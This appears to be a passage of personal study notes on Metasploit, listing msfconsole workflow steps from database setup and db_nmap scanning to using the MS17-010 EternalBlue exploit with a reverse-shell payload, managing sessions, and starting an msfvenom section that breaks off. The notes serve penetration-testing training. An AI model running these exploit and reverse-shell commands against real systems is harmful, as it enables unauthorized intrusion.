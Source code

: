```bash
    background            # Send a meterpreter session to the background.
    ```

### 🛠️ **Practical Conclusion**
Metasploit is no longer an intimidating “black box.” By understanding its modular structure and the basic flow of `msfconsole`, it becomes a systematic and predictable tool for:
- Checking for vulnerabilities.
- Automating the exploitation phase.
- Centrally managing access to multiple compromised systems.

> **Key Skill Acquired:** The ability to navigate the `msfconsole` interface, search for modules relevant to a target, and apply the fundamental flow of `use -> configure -> run` to execute them.

## Module Completed: Metasploit: Exploitation ##

**Completion Date:** [2025/09/30]

1. Module Objective
Demonstrate the complete Metasploit workflow, from passive reconnaissance to remote code execution (RCE).

Master project data management (hosts, services, workspaces) within the Metasploit console.

2. Key Project Phases (High-Level Commands)
Phase    Demonstrated Task    Essential Commands
I. Setup & Management    
Initialize the database and create the project workspace.

systemctl start postgresql, sudo -u postgres msfdb init, workspace -a [name] 

II. Reconnaissance    
Scan services and automatically save hosts to the database.

db_nmap -sV [target IP] / 

hosts / services 

III. Exploitation (Example: MS17-010)    
Use the exploit module and configure the 

Reverse Shell payload.

use exploit/windows/smb/ms17_010_eternalblue / 

set payload generic/shell_reverse_tcp / 

set LHOST [Your IP] / 

run 

IV. Post-Exploitation    
Management of multiple accesses (sessions) in the background.

sessions -l / sessions -i [ID]


Export to spreadsheets
3. Customization Tools (MSFVENOM)

Function: Creation of independent payloads for scenarios where a direct exploit is not used (e.g., in a file upload vulnerability on a website).

Key Command Example:
```